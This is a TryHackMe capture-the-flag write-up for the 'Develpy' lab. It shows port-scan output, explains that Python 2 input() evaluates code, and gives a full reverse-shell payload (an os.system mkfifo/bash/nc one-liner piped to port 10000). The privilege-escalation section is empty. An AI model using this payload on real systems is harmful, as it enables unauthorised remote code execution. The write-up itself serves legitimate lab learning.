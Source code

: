 -----------------

### CTF: TRYHACKME
### LAB: Develpy

-----------------

![image](https://github.com/user-attachments/assets/7d795f58-d97e-41e9-ac00-d746b48af727)

-----------------

### Recon

- Rustscan's output



      ❯ rustscan -a 10.10.222.233 -- -sC -sV
      .----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
      | {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
      | .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
      `-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
      The Modern Day Port Scanner.
      ________________________________________
      : https://discord.gg/GFrQsGy           :
      : https://github.com/RustScan/RustScan :
       --------------------------------------
      😵 https://admin.tryhackme.com
      
      [~] The config file is expected to be at "/home/sensei/.rustscan.toml"
      [!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
      [!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
      Open 10.10.222.233:22
      Open 10.10.222.233:10000
      [~] Starting Script(s)
      [>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")
      
      [~] Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-21 17:08 EDT
      NSE: Loaded 156 scripts for scanning.
      NSE: Script Pre-scanning.
      NSE: Starting runlevel 1 (of 3) scan.
      Initiating NSE at 17:08
      Completed NSE at 17:08, 0.00s elapsed
      NSE: Starting runlevel 2 (of 3) scan.
      Initiating NSE at 17:08
      Completed NSE at 17:08, 0.00s elapsed
      NSE: Starting runlevel 3 (of 3) scan.
      Initiating NSE at 17:08
      Completed NSE at 17:08, 0.00s elapsed
      Initiating Ping Scan at 17:08
      Scanning 10.10.222.233 [2 ports]
      Completed Ping Scan at 17:08, 0.80s elapsed (1 total hosts)
      Initiating Parallel DNS resolution of 1 host. at 17:08
      Completed Parallel DNS resolution of 1 host. at 17:08, 0.39s elapsed
      DNS resolution of 1 IPs took 0.39s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
      Initiating Connect Scan at 17:08
      Scanning 10.10.222.233 [2 ports]
      Discovered open port 22/tcp on 10.10.222.233
      Discovered open port 10000/tcp on 10.10.222.233
      Completed Connect Scan at 17:08, 0.74s elapsed (2 total ports)
      Initiating Service scan at 17:08
      Scanning 2 services on 10.10.222.233
      Completed Service scan at 17:10, 130.26s elapsed (2 services on 1 host)
      NSE: Script scanning 10.10.222.233.
      NSE: Starting runlevel 1 (of 3) scan.
      Initiating NSE at 17:10
      Completed NSE at 17:10, 10.61s elapsed
      NSE: Starting runlevel 2 (of 3) scan.
      Initiating NSE at 17:10
      Completed NSE at 17:10, 6.67s elapsed
      NSE: Starting runlevel 3 (of 3) scan.
      Initiating NSE at 17:10
      Completed NSE at 17:10, 0.00s elapsed
      Nmap scan report for 10.10.222.233
      Host is up, received conn-refused (0.79s latency).
      Scanned at 2024-08-21 17:08:15 EDT for 149s
      
      PORT      STATE SERVICE           REASON  VERSION
      22/tcp    open  ssh               syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
      | ssh-hostkey: 
      |   2048 78:c4:40:84:f4:42:13:8e:79:f8:6b:e4:6d:bf:d4:46 (RSA)
      | ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDeAB1tAGCfeGkiBXodMGeCc6prI2xaWz/fNRhwusVEujBTQ1BdY3BqPHNf1JLGhqts1anfY9ydt0N1cdAEv3L16vH2cis+34jyek3d+TVp+oBLztNWY5Yfcv/3uRcy5yyZsKjMz+wyribpEFlbpvscrVYfI2Crtm5CgcaSwqDDtc1doeABJ9t3iSv+7MKBdWJ9N3xd/oTfI0fEOdIp8M568A1/CJEQINFPVu1txC/HTiY4jmVkNf6+JyJfFqshRMpFq2YmUi6GulwzWQONmbTyxqrZg2y+y2q1AuFeritRg9vvkBInW0x18FS8KLdy5ohoXgeoWsznpR1J/BzkNfap
      |   256 25:9d:f3:29:a2:62:4b:24:f2:83:36:cf:a7:75:bb:66 (ECDSA)
      | ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDGGFFv4aQm/+j6R2Vsg96zpBowtu0/pkUxksqjTqKhAFtHla6LE0BRJtSYgmm8+ItlKHjJX8DNYylnNDG+Ol/U=
      |   256 e7:a0:07:b0:b9:cb:74:e9:d6:16:7d:7a:67:fe:c1:1d (ED25519)
      |_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMbypBoQ33EbivAc05LqKzxLsJrTgXOrXG7qG/RoO30K
      10000/tcp open  snet-sensor-mgmt? syn-ack
      | fingerprint-strings: 
      |   GenericLines: 
      |     Private 0days
      |     Please enther number of exploits to send??: Traceback (most recent call last):
      |     File "./exploit.py", line 6, in <module>
      |     num_exploits = int(input(' Please enther number of exploits to send??: '))
      |     File "<string>", line 0
      |     SyntaxError: unexpected EOF while parsing
      |   GetRequest: 
      |     Private 0days
      |     Please enther number of exploits to send??: Traceback (most recent call last):
      |     File "./exploit.py", line 6, in <module>
      |     num_exploits = int(input(' Please enther number of exploits to send??: '))
      |     File "<string>", line 1, in <module>
      |     NameError: name 'GET' is not defined
      |   HTTPOptions, RTSPRequest: 
      |     Private 0days
      |     Please enther number of exploits to send??: Traceback (most recent call last):
      |     File "./exploit.py", line 6, in <module>
      |     num_exploits = int(input(' Please enther number of exploits to send??: '))
      |     File "<string>", line 1, in <module>
      |     NameError: name 'OPTIONS' is not defined
      |   NULL: 
      |     Private 0days
      |_    Please enther number of exploits to send??:
      1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
      SF-Port10000-TCP:V=7.94SVN%I=7%D=8/21%Time=66C65747%P=x86_64-pc-linux-gnu%
      SF:r(NULL,48,"\r\n\x20\x20\x20\x20\x20\x20\x20\x20Private\x200days\r\n\r\n
      SF:\x20Please\x20enther\x20number\x20of\x20exploits\x20to\x20send\?\?:\x20
      SF:")%r(GetRequest,136,"\r\n\x20\x20\x20\x20\x20\x20\x20\x20Private\x200da
      SF:ys\r\n\r\n\x20Please\x20enther\x20number\x20of\x20exploits\x20to\x20sen
      SF:d\?\?:\x20Traceback\x20\(most\x20recent\x20call\x20last\):\r\n\x20\x20F
      SF:ile\x20\"\./exploit\.py\",\x20line\x206,\x20in\x20<module>\r\n\x20\x20\
      SF:x20\x20num_exploits\x20=\x20int\(input\('\x20Please\x20enther\x20number
      SF:\x20of\x20exploits\x20to\x20send\?\?:\x20'\)\)\r\n\x20\x20File\x20\"<st
      SF:ring>\",\x20line\x201,\x20in\x20<module>\r\nNameError:\x20name\x20'GET'
      SF:\x20is\x20not\x20defined\r\n")%r(HTTPOptions,13A,"\r\n\x20\x20\x20\x20\
      SF:x20\x20\x20\x20Private\x200days\r\n\r\n\x20Please\x20enther\x20number\x
      SF:20of\x20exploits\x20to\x20send\?\?:\x20Traceback\x20\(most\x20recent\x2
      SF:0call\x20last\):\r\n\x20\x20File\x20\"\./exploit\.py\",\x20line\x206,\x
      SF:20in\x20<module>\r\n\x20\x20\x20\x20num_exploits\x20=\x20int\(input\('\
      SF:x20Please\x20enther\x20number\x20of\x20exploits\x20to\x20send\?\?:\x20'
      SF:\)\)\r\n\x20\x20File\x20\"<string>\",\x20line\x201,\x20in\x20<module>\r
      SF:\nNameError:\x20name\x20'OPTIONS'\x20is\x20not\x20defined\r\n")%r(RTSPR
      SF:equest,13A,"\r\n\x20\x20\x20\x20\x20\x20\x20\x20Private\x200days\r\n\r\
      SF:n\x20Please\x20enther\x20number\x20of\x20exploits\x20to\x20send\?\?:\x2
      SF:0Traceback\x20\(most\x20recent\x20call\x20last\):\r\n\x20\x20File\x20\"
      SF:\./exploit\.py\",\x20line\x206,\x20in\x20<module>\r\n\x20\x20\x20\x20nu
      SF:m_exploits\x20=\x20int\(input\('\x20Please\x20enther\x20number\x20of\x2
      SF:0exploits\x20to\x20send\?\?:\x20'\)\)\r\n\x20\x20File\x20\"<string>\",\
      SF:x20line\x201,\x20in\x20<module>\r\nNameError:\x20name\x20'OPTIONS'\x20i
      SF:s\x20not\x20defined\r\n")%r(GenericLines,13B,"\r\n\x20\x20\x20\x20\x20\
      SF:x20\x20\x20Private\x200days\r\n\r\n\x20Please\x20enther\x20number\x20of
      SF:\x20exploits\x20to\x20send\?\?:\x20Traceback\x20\(most\x20recent\x20cal
      SF:l\x20last\):\r\n\x20\x20File\x20\"\./exploit\.py\",\x20line\x206,\x20in
      SF:\x20<module>\r\n\x20\x20\x20\x20num_exploits\x20=\x20int\(input\('\x20P
      SF:lease\x20enther\x20number\x20of\x20exploits\x20to\x20send\?\?:\x20'\)\)
      SF:\r\n\x20\x20File\x20\"<string>\",\x20line\x200\r\n\x20\x20\x20\x20\r\n\
      SF:x20\x20\x20\x20\^\r\nSyntaxError:\x20unexpected\x20EOF\x20while\x20pars
      SF:ing\r\n");
      Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
  
- Port `10000` hosts a python script, I discovered that by sending random characters which triggered a python `NameError`.

![image](https://github.com/user-attachments/assets/bcb7983d-16e0-4016-99b5-1f0b8b7c847a)

- We got a bit of the source code which includes `int(input())`, `input()` in python2.7 and python2 evaluates code which can lead to code execution.
We can also escalate this eode execution to command injection through modules like `os` and `subprocess`. Here is an example

![image](https://github.com/user-attachments/assets/7f55e2b2-000d-4bfe-b7e4-8cba8ea82703)

I was able to trigger binary the command to echo `God Abeg!!!.

### Reverse shell

- I used this payload to trigger a rev shell

   Payload-:```echo "__import__('os').system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc <ip> <port> >/tmp/f')" |nc 10.10.222.233 10000```

- Shell access as user `king`

  ![image](https://github.com/user-attachments/assets/487a8e7e-fc99-4a71-8626-1af7ddbd51ef)
  
### PRIVESC WITH INTERNAL ROOT SERVICE

-
